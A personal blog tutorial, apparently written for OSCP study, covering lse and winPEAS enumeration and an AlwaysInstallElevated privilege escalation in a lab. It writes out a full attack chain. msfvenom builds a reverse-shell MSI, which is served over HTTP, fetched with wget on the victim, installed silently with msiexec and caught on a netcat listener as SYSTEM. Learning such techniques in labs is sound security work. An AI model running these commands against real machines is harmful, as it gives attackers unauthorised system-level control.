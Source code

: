 ```yaml
---
layout: post
title: Windows and Linux Privilege Escalation Tools
subtitle: Abusing the AlwaysInstallElevated option for privilege escalation
tags: [Security, OSCP, Privilege escalation, Pentest, Red-teaming]
comments: true
---
```


In my preperation for the OSCP course i am learning about both linux and windows privilege escalations techniques.  
There are different escaltion techniques like escalation via kernel exploits, unqoted services, misconfigruations and stuff like that.
I built myself a lab to practice on.  
I have used <https://github.com/sagishahar/lpeworkshop> for the lab. Everything you need to know is in there. I did use a Win 10 machine so i had to remove the space between the md5 hashes to make the script work. Also i did create an admin account and disabled the realtime protection.

You can find the different privilege escalation manually or via automated scripts.  
The two tools i use for automation are linux-smart-enumeration for Linux <https://github.com/diego-treitos/linux-smart-enumeration> and
winPEAS for Windows <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

To use lse (Linux-smart-enumeration), first we nee to download the script. 
<div class="alert-info">git clone git clone https://github.com/diego-treitos/linux-smart-enumeration.git
</div>

Next we can use lse. you can use the -h parameter to show the options. I am not going to get in details about this.
<div class="alert-info">./lse.sh -h
</div>
Of course you have to run this on the victim-pc or victim-server.

To use winPEAS ,first we need to download the scripts.
<div class="alert-info">git clone git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git
</div>
As with the lse.sh script, you have to run this on the victim-pc or victim-server.

To transfer one of these files you have a few options you can use.
On linux you can start a http server to download the files via the shell on the victim.
Other options are to transfer these files via SMB or NetCat if it is available on the victim.
When transfering via SMB you have to setup SMB on kali.

To start a http server run the following command.
<div class="alert-info">sudo python3 -m http.server 80</div>
This will start a http on port 80 in the directory you currently are.

You can now download the lse.sh if you are on Linux or winPEAS.exe if you are on Windows.
Once you have transferd one of the files you can run it and read the output carefully for anything interesting that could lead to a privilege escalation.

Let's say we already have shell on a Windows victim we could start from there to download the winPEAS.exe file.
<div class="alert-info">wget http://ip/winPEAS.exe -O winPEAS.exe</div>
![image](/assets/img/transfer-winpeas.png)
As you can see the shell we had does not understand weget. So we just type in powershell to get a powershell shell were we can run the wget comman.

Next run the winPEAS.exe and check for anything interesting that could lead to a privilege escalation.

We use the command .\winPEAS.exe -h to see what options we have.
![image](/assets/img/winpeas-h.png)
Let's run the following command
<div class="alert-info">.\winPEAS.exe windowscreds</div>
![image](/assets/img/winpeas-windowscreds.png)
The results shows us that AlwaysInstallElevated is set to 1 in both HKLM and HKCU!
This means that .MSI packages are installed with eleveated system privileges.

We now can run the following msfvenom commannd to create a payload with a reverse shell in it.
<div class="alert-info">msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi -o reverse.msi</div>
![image](/assets/img/msfvenom-msi.png)
Next we set up a http server to download the file from the victim
<div class="alert-info">sudo python3 -m http.server 80</div>
![image](/assets/img/http-server.png)

Next we download the reverse.msi to the victim
<div class="alert-info">wget http://ip/reverse.msi -O reverse.msi</div>
![image](/assets/img/wget-msi.png)

We now setup a new NetCat listener on Kali 
<div class="alert-info">sudo nc -nlvp 55</div>
![image](/assets/img/nc-listener-55.png)

Finally we run the following command in the victim shell
<div class="alert-info">msiexec /quiet /qn /i reverse.msi</div>
![image](/assets/img/msiexec.png)

Lets go back to the new nc listener and checkout if we did catch the reverse shell with system privileges.

![image](/assets/img/system-msiexec.png)

Yes, we have shell and running it as system!
